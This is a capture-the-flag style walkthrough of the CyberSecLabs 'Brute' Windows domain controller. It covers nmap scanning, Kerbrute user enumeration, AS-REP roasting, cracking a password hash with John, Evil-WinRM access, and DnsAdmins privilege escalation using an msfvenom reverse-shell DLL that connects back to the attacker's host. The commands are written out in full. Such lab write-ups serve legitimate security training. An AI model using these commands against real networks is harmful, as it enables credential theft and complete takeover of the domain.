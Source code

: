 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Brute/
---
```


# Brute

![](<../../../.gitbook/assets/image (564) (1).png>)

## Nmap

On this machine I will initiate a SYN scan and define version checking with default scripts.

```aspnet
sudo nmap 172.31.3.3 -sS -p- -sV -sC

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-15 19:00:52Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: brute.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRUTE
|   NetBIOS_Domain_Name: BRUTE
|   NetBIOS_Computer_Name: BRUTE-DC
|   DNS_Domain_Name: brute.csl
|   DNS_Computer_Name: Brute-DC.brute.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-15T19:01:50+00:00
| ssl-cert: Subject: commonName=Brute-DC.brute.csl
| Not valid before: 2020-12-14T18:52:18
|_Not valid after:  2021-06-15T18:52:18
|_ssl-date: 2020-12-15T19:01:58+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49729/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BRUTE-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: BRUTE-DC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e7:d2:15:e3:46 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-15T19:01:50
|_  start_date: N/A
```

## SMB

As per usual I like to start with quick null authentication checks against SMB. Unfortunately we have nothing to reveal here.

![](<../../../.gitbook/assets/image (565).png>)

## Kerberos

As port 88 is open we can run `Kerbrute` against the server to hopefully identify any valid usernames.

```aspnet
kerbrute userenum /usr/share/seclists/Usernames/Names/names.txt -d brute.csl --dc 172.31.3.3
```

![](<../../../.gitbook/assets/image (566).png>)

As above we have discovered four usernames. We can store these in a test file and perform AS-REP roasting with them which I have covered in a little more detail below:

{% embed url="https://app.gitbook.com/@akimboviper/s/tools/impacket/as-rep-roasting" %}

As we have no web server or SMB access the next best logical step is to check for Kerberoastable accounts.

```aspnet
sudo python2 GetNPUsers.py brute/ -usersfile /home/kali/brute/users.txt -dc-ip 172.31.3.3 -format john -outputfile /home/kali/brute/hash.txt
```

![](<../../../.gitbook/assets/image (568).png>)

We notice that from the resulting output that the user 'tess' has not returned an error message. We can `cat` the output file to confirm if we have a hash.

![](<../../../.gitbook/assets/image (569).png>)

We can send this straight to John and attempt to crack.

```aspnet
sudo john --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/brute/hash.txt 
```

![](<../../../.gitbook/assets/image (570).png>)

We now have the credentials: `tess:Unique1`

## Initial Foothold

I checked these credentials against SMB and had access to list shares. The shares SYSVOL and NETLOGON had nothing interesting in them. We do have WinRM running so we can use `Evil-WinRM` and attempt to connect.

```aspnet
evil-winrm -u tess -p Unique1 -i 172.31.3.3 -s /home/kali/scripts/windows/
```

![](<../../../.gitbook/assets/image (571).png>)

## Privilege Escalation

I like to check the `systeminfo` command first when looking for privilege escalation but, in this instance access to the command was denied. I next looked at `whoami /all` to have a quick overview on account memberships and permissions.

![](<../../../.gitbook/assets/image (572).png>)

What stands out immediately is that we are a member of the 'DnsAdmins' group. I am aware of a privilege escalation method which can be performed by users that are part of the 'DnsAdmins' group.

A quick google search for this returns a really good medium article on performing this attack.

{% embed url="https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2" %}

As per the article we first need to create a malicious DLL file with `msfvenom`.

```aspnet
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.0.176 LPORT=1234 -f dll > /home/kali/scripts/windows/privesc.dll
```

The article actually recommends hosting the DLL file on a SMB server form our attacking machine. This did not work for me as the connection back to the file kept getting terminated early.

![](<../../../.gitbook/assets/image (574).png>)

Instead I opted to upload the file directly with Evil-WinRM just make sure when connecting with Evil-WinRM you define the location of the payload with the `-s` switch. Once connected to the `upload` command and then specify the file.

![](<../../../.gitbook/assets/image (575).png>)

After the upload has completed run the following command.

```aspnet
dnscmd brute-dc /config /serverlevelplugindll C:\Users\Tess\Documents\privesc.dll
```

The command should return back completed. Now start up a `netcat` listener on your attacking machine and specify the same port as used in `msfvenom` for the payload.

```aspnet
nc -lvp 1234
```

Next we can query the DNS service on the server to view its status. Then run the following commands:

```aspnet
sc.exe query dns
sc.exe \\brute-dc stop dns
sc.exe \\brute-dc start dns
```

![](<../../../.gitbook/assets/image (576).png>)

The netcat shell should get a callback and we should have gained access as SYSTEM.

![v](<../../../.gitbook/assets/image (577).png>)
